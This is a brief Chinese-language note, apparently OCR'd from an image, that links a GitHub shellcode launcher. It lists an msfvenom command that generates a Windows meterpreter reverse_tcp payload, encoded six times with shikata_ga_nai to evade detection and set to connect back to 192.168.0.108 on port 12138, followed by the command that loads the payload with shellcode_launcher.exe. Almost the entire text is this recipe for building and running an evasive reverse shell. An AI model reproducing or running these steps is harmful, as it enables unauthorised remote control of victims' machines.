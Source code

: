 	https://github.com/clinicallyinane/shellcode_launcher/
	生成payload(raw)
	>msfvenom -p  windows/meterpreter/reverse_tcp -e x86/shikata_ga_nai -i 6 -b '\x00' lhost=192.168.0.108 lport=12138 -f raw -o shellcode.raw
	加载器加载
	>shellcode_launcher.exe -i shellcode.raw